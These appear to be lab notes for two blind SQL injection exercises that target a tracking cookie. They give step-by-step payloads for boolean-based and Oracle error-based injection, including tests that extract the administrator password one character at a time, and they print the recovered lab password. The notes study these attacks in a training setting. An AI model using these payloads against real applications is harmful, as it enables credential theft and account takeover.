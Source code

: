 
### lab_11. Blind SQL injection with conditional responses
Vulnerable parameter - tracking cookie

End Goals:
1) Enumerate the password of the administrator
2) Log in as the administrator user

Analysis:
1) Confirm that the parameter is vulnerable to blind SQLi

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN'

-> If this tracking id exists -> query returns value -> Welcome back message
-> If the tracking id doesn't exist -> query returns nothing -> no Welcome back message

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=1--'
-> TRUE -> Welcome back

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and 1=0--'
-> FALSE -> no Welcome back

2) Confirm that we have a users table
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select 'x' from users LIMIT 1)='x'--'
-> users table exists in the database.

3) Confirm that username administrator exists users table
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator')='administrator'--'
-> administrator user exists

4) Enumerate the password of the administrator user
select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'
-> password is exactly 20 characters

select tracking-id from tracking-table where trackingId = 'RvLfBu6s9EZRlVYN' and (select substring(password,2,1) from users where username='administrator')='a'--'

1 2 3 45 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20
52rqbjtjpa749cy0bv6s

### lab_12. Blind SQL injection with conditional errors
Vulnerable parameter - tracking cookie

End Goals:
- Output the administrator password
- Login as the administrator user

Analysis:
1) Prove that parameter is vulnerable
' || (select '' from dual) || ' -> oracle database
' || (select '' from dualfiewjfow) || ' -> error

2) Confirm that the users table exists in the database
' || (select '' from users where rownum =1) || ' 
-> users table exists
